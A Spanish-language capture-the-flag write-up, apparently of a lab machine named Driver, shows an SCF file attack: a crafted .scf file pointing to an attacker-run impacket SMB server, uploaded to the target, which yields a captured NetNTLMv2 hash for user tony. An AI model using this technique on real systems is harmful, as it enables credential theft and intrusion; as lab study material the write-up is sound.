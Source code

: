 En la web de [pentestlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) encontramos esto:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Vamos a agregar nuestra dirección:

```
[Shell]
Command=2
IconFile=\\10.10.14.17\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Vamos a crearnos nuestro servidor con impacket:
```
impacket-smbserver shares $(pwd) -smb2support
Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Vamos a subir el archivo SCF a la página:

![](/imagenes/Drive/driver4.png)

Si le damos a enviar y vemos nuestro servidor:
```
impacket-smbserver shares $(pwd) -smb2support
Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:54c57ca37a0fd7e1acabb0d4db22f1ca:0101000000000000802c281b4342d901a31c7d008e3bb7580000000001001000540052004900460064004c0044007a0003001000540052004900460064004c0044007a00020010005400550047004e00650068004e005100040010005400550047004e00650068004e00510007000800802c281b4342d9010600040002000000080030003000000000000000000000000020000077d4186e48d17352d9804ca5dcc89946e03f576795cf67d411196b5f849b8e690a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003700000000000000000000000000
[*] Connecting Share(1:IPC$)
```